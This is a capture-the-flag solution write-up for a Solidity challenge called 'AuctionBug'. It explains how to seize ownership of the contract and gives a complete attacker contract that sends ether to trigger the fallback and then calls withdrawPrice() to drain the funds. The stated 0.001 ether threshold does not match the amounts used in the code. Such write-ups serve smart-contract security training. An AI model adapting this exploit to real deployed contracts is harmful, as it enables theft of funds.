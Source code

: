 # AuctionBug

## Solution :

To validate this challenge, the user needs to become the contract's owner and call the `withdrawPrice()` function.

To become the owner, he needs to send at least `0.001 ether` to the contract.
For that, he needs to use the `send` method with the contract's address.

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.6.0;

import "../../levels/intermediateChalls/AuctionBug.sol";

contract AttackAuctionBug {
	AuctionBug originalContract;

	constructor(address payable _originalContract) public {
		originalContract = AuctionBug(_originalContract);
	}

	function exploit() public payable {
		require(msg.value == 0.2 ether);
		address(originalContract).call.value(0.1 ether)(abi.encodeWithSignature("addToAuction()"));
		address(originalContract).call.value(0.1 ether)("");
		originalContract.withdrawPrice();
	}
}
```